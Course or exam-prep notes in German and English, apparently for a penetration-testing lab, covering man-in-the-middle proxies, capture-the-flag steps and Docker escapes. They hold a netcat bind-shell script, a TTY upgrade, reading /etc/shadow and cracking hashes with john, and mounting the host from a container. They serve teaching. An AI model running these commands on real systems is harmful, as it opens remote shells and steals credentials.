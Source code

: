 ```
        - mitmproxy.org
            - Transparent Proxy
            - `bettercap -iface eth1`
            - `mitmproxy` 
        - Mit ca.key eigenes Zertifikat siginieren
            - `certtool` 
    - Webtop (10.183.162.152)
        - Added bind shell script
            - ```bash
$ cat bind_shell.sh
#!/bin/bash

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f

``` 
            - Full TTY
                - ```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset; 
``` 
        1. Flag
            1. `cd /flags` 
        2. Flag
            1. Ran linpeas.sh
                - checked groups
                - found `sudo` 
                    - `sudo su - root` 
                - `cd /home/rockme` 
                    - check `TODO.md`
                    - crack password of user locally
                        - get hash `cat /etc/shadow` 
                        - `john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hash.txt ` 
                    - Use on nextcloud machine
        3. Flag
            1. Open firefox
            2. Check URL Bar
    - Keysafe
        - ![](local://C:/Users/hoisc/remnote/remnote-63d97e1a4bbc4c8b7b51bea4/files/DV-iJLmPxBQM-QDGkG__ZMicDJRWw6d4IPV_yR31jvfja9tdQXdMmlfYDFIbgAeMNVtjg19jlYxCZ4jZFXM60peOR_zA8wD_soe8WbrQEN7RkFGU4mm1pjNuP-2TQ5g0.png) 
- Practical Tasks in the Exam
    - Start by scanning
    - Pivot Scanning exists, also important for the network plan
    - Roughly 1 hour of just watching and exploring the network
    - Network plan website provides helpful hints
    - 3 apporaches in der Klausur, da müssen wir beschreiben, wie unser Lösungsweg ist. Feedback nicht in der Klausur, aber gibt Punkte
    - Für 1.0
        - 4 easy, 2 medium, 1 hard
    - there are 6 easy, 3 medium, 2 hard
    - Docker 
        - interessanter mount ist bspw. /dev/vda1
        - Priviledge Escalation
        - Disc Mounting von root systemen, wenn wir im docker root sind
            - Du startest neuen container, mountest host system, bam
        - Docker in Docker
        - um mit dem Daemon zu kommunizieren, müssen wir in der Docker gruppe sein
        - Mal schauen, ob der Container in anderen Netzen drin ist
```